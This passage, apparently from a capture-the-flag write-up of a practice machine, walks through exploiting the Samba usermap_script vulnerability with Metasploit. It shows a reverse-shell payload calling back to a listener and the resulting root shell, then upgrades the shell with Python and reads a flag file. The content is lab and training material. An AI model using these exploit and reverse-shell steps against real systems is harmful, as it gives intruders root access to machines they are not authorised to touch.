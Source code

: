
    Payload options (cmd/unix/reverse):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic



When I run this, it shows me that shell session opened, and then just
sits at an empty line. But if I type commands into that line, I get
results:



    msf5 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP double handler on 10.10.14.24:443 
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo zchdJVWjFG8sP3T3;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Reading from socket B
    [*] B: "zchdJVWjFG8sP3T3\r\n"
    [*] Matching...
    [*] A is input...
    [*] Command shell session 1 opened (10.10.14.24:443 -> 10.10.10.3:37959) at 2019-02-28 08:52:31 -0500

    ‍id
    uid=0(root) gid=0(root)



### Shell as Root

With a shell via any of these methods, I can use `python` and `pty` to
get a nicer shell:



    ‍python -c 'import pty; pty.spawn("bash")'
    root@lame:/#



And then get the flags:



    root@lame:/home# find . -name user.txt -exec cat {} \;
    69454a93************************
